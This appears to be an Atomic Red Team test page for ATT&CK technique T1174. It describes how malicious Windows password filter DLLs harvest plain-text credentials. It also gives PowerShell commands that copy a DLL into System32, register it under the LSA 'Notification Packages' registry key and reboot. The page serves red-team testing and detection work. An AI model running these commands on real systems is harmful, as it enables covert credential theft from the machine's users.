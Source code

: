 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder\T1174\src\AtomicPasswordFilter.dll|


#### Attack Commands: Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```





<br/>

